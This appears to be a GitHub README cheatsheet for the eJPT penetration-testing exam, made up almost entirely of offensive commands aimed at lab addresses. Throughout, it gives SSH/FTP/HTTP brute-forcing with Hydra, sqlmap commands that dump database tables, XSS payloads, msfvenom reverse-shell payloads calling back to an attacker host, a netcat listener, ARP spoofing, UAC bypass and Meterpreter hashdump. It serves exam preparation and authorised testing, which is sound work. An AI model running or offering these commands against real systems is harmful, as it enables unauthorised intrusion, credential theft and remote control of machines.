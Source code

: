 # eJPT-Cheatsheet
This is a Cheatsheet for eJPT Exam & Course.

## Nmap
```sh
nmap -sn 10.10.10.0/24\                              #Host Discover
nmap -sV -p- -iL targets -oN nmap.initial -v\ 
nmap -A -p- -iL targets -oN nmap.aggressive -v\
nmap -p<port> --script=vuln -v <target-IP>           #Vulnerabillity Assessment
```
## fPing
```sh
fping -a -g 10.10.10.0/24 2>/dev/null > targets       #Host Discover
``` 
## IP Route
**Syntax**\
ip route add \<Network-range\> via \<router-IP\> dev \<interface\>\
eg.\
```sh
ip route add 10.10.10.0/24 via 10.10.11.1 dev tap0
```
## John
```sh
john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5\
unshadow passwd shadow > unshadowed.txt\
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```
## dirb
dirb http://10.10.10.10/ \
dirb http://10.10.10.10/dir -u admin:admin

*I suggest you to use dirbuster for better speed. Keep the threads at 20. Use /usr/share/wordlists/dirb/common.txt wordlist.*

## Netcat
**Listening for reverse shell**\
nc -nvlp 1234

**Banner Grabbing**\
nc -nv 10.10.10.10 \<port\>

## SQLMap
#### Check if injection exists
sqlmap -r Post.req\
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id\
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin"

#### Get database if injection Exists
sqlmap -r login.req --dbs\
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id --dbs\
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" --dbs\

#### Get Tables in a Database
sqlmap -r login.req -D dbname --tables\
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id -D dbname --tables\
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" -D dbname --tables

#### Get data in a Database tables
sqlmap -r login.req -D dbname -T table_name --dump\
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id -D dbname -T table_name --dump\
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" -D dbname -T table_name --dump

## Hydra
**SSH Login Bruteforcing**\
hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u 10.10.10.10 ssh\
hydra -v -V -u -l root -P passwords.txt -t 1 -u 10.10.10.10 ssh\
*You can use same for FTP, just replace ssh with ftp*

**HTTP POST Form**\
hydra http://10.10.10.10/ http-post-form "/login.php:user=^USER^&password=^PASS^:Incorrect credentials" -L usernames.txt -P passwords.txt -f -V

*You will know which wordlists to use when the time comes*


## XSS
\<script\>alert(1)\</script\>\
\<ScRiPt\>alert(1)\</ScRiPt\>

*This is a great filter bypass cheatsheet*\
https://owasp.org/www-community/xss-filter-evasion-cheatsheet

## msfvenom shells
**JSP Java Meterpreter Reverse TCP**\
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp

**WAR**\
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f war > shell.war

**PHP**\
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php\
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

## Metasploit Meterpreter autoroute
run autoroute -s 10.10.10.0/24

## ARPSpoof
echo 1 > /proc/sys/net/ipv4/ip_forward\
arpspoof -i <interface> -t <target> -r <host>\
arpspoof -i tap0 -t 10.100.13.37 -r 10.100.13.36

## SMB Enumeration
**Get shares, users, groups, password policy**\
smbclient -L //10.10.10.10/\
enum4linux -U -M -S -P -G 10.10.10.10\
nmap --script=smb-enum-users,smb-os-discovery,smb-enum-shares,smb-enum-groups,smb-enum-domains 10.10.10.10 -p 135,139,445 -v\
nmap -p445 --script=smb-vuln-* 10.10.10.10 -v

**Access Share**\
smbclient //10.10.10.10/share_name

## FTP Enumeration
nmap --script=ftp-anon 10.10.10.10 -p21 -v\
nmap -A -p21 10.10.10.10 -v

**Login to FTP server**\
ftp 10.10.10.10\

## FTP server Commands 
```sh
get filename               #to Receive file\
put filename >             #to upload file \
cd /../.. >                #to Change remote working directory\
ls /.. >                   #to List contents of remote directory
```
## Meterpreter
ps\
getuid\
getpid\
getsystem\
ps -U SYSTEM

**CHECK UAC/Privileges**\
run post/windows/gather/win_privs

**BYPASS UAC**\
*Background the session first*\
exploit/windows/local/bypassuac\
set session

**After PrivEsc**\
migrate \<pid\>\
hashdump
  
## Windows Command Line
**To search for a file starting from current directory**\
dir /b/s "\*.conf\*"\
dir /b/s "\*.txt\*"\
dir /b/s "\*filename\*"

**Check routing table**\
route print\
netstat -r

**Check Users**\
net users

**List drives on the machine**\
wmic logicaldisk get Caption,Description,providername


